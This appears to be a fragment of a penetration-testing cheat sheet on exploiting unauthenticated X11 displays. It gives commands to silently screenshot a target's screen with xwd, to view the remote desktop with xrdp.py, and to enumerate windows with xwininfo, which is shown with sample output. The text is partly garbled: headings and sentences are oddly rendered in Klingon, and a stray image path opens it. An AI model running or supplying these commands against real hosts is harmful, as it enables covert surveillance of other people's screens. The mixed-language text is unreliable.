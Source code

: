 ### tlhIngan Hol translation:

## Screenshots capturing
```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```
## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
```
./xrdp.py <IP:0>
```
QaQ: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

cha'logh: xwininfo rurID'e' vItlhutlh.
```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```
**XWatchwin**
